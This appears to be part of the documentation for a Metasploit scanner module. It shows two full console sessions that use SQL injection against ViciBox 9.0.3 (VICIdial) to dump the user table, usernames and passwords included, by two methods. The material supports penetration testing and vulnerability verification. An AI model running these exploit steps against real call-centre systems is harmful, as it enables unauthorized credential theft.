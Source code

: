 ### ViciBox 9.0.3 - List Users - agentcall_email method

```
msf use auxiliary/scanner/http/vicidial_multiple_sqli
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set verbose true
verbose => true
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set password notpassword
password => notpassword
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set action List Users - agentcall_email method
action => List Users - agentcall_email method
msf auxiliary(scanner/http/vicidial_multiple_sqli) > run

[*] Enumerating Usernames and Password Hashes
[+] Dumped table contents:
vicidial_users
==============

 user  pass
 ----  ----
 6666  notpassword
 VDAD  donotedit
 VDCL  donotedit

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


### ViciBox 9.0.3 - List Users - user_stats method

```
msf use auxiliary/scanner/http/vicidial_multiple_sqli
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set verbose true
verbose => true
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set password notpassword
password => notpassword
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set action List Users - user_stats method
action => List Users - user_stats method
msf auxiliary(scanner/http/vicidial_multiple_sqli) > run

[*] Enumerating Usernames and Password Hashes
[+] Dumped table contents:
vicidial_users
==============

 user  pass
 ----  ----
 6666  notpassword
 VDAD  donotedit
 VDCL  donotedit

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
